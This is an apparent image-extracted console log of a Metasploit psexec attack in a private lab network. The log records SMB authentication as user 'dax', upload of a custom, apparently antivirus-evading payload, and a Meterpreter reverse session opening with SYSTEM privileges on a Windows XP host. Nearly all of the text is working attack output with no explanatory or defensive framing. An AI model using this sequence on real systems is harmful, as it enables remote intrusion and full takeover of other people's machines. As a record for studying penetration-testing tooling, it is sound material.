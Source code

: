 ```
[*] 192.168.116.183:445 - Connecting to the server...
[*] Started bind handler
[*] 192.168.116.183:445 - Authenticating to 192.168.116.183:445 as user 'dax'...
[*] Sending stage (957487 bytes) to 192.168.116.183
[*] 192.168.116.183:445 - Selecting native target
[*] 192.168.116.183:445 - Uploading payload...
[*] 192.168.116.183:445 - Using custom payload /root/tools/avepoc/a.exe, RHOST and RPORT settings will be ignored!
[*] 192.168.116.183:445 - Created \mzrCIOVg.exe...
[+] 192.168.116.183:445 - Service started successfully...
[*] 192.168.116.183:445 - Deleting \mzrCIOVg.exe...
[-] 192.168.116.183:445 - Delete of \mzrCIOVg.exe failed: The server responded with error: STATUS_CANNOT_DELETE (Command=6 WordCount=0)
[*] Exploit completed, but no session was created.
msf exploit(psexec) > [*] Meterpreter session 4 opened (192.168.116.142:33453 -> 192.168.116.183:8443) at 2017-05-27 18:47:23 +0200

msf exploit(psexec) > sessions

Active sessions
===============

Id Type Information Connection
-- ---- ----------- ----------
4 meterpreter x86/windows NT-AUTORIT_T\SYSTEM @ DAX-RYMZ48Z3EYO 192.168.116.142:33453 -> 192.168.116.183:8443 (192.168.116.183)

msf exploit(psexec) > sessions -i 4
[*] Starting interaction with 4...

meterpreter > sysinfo
Computer : DAX-RYMZ48Z3EYO
OS : Windows XP (Build 2600, Service Pack 3).
Architecture : x86
System Language : de_DE
Domain : ARBEITSGRUPPE
Logged On Users : 2
Meterpreter : x86/windows
```
